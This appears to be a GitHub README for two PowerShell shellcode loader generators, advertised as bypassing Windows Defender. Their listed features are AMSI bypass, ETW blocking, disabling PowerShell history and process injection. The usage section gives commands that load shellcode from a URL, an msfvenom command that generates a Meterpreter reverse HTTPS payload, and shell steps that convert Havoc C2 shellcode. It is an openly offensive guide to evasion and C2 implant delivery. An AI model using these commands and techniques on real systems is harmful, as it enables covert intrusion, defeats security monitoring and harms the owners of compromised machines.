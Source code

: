 --------------------------------------
### Invoke-PoSH-ShellCodeLoader1.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader1' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader script that will inject the shellcode into the current process's virtual address space.  

> Features
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1  
  --- or ---
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellcode -OutFile C:\path\Packed-ShellcodeLoader.ps1
```

> Input 
  - Shellcode format (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)
  - Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode```
  
> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellcode loader script that will inject the shellcode into a target process's virtual address space.  

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage
```
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1
    --- or ---
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellcode -TargetProcess explorer -OutFile C:\path\Packed-ShellcodeLoader.ps1
```

> Input 
  - Shellcode format (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)
  - Metasploit C2 Framework  
  ```msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o shellcode```
  - Havoc C2 Framework  
    1. Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64 / Indirect Syscall: Enabled / Sleep Technique: WaitForSIngleObjectEx)  
    2. To convert the Havoc shellcode to the "PS1" format you need to run these commands:  
      ```jeff@kali:~/$ xxd -p HavocShellCode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > HavocShellcode1```  
     ```jeff@kali:~/$ sed '$ s/.$//' HavocShellcode1 > HavocShellcode2```  
     ```jeff@kali:~/$ sed -i '1s/^/[Byte[]] $buf = /' HavocShellcode2```  

> License
  - GNU General Public License v3.0

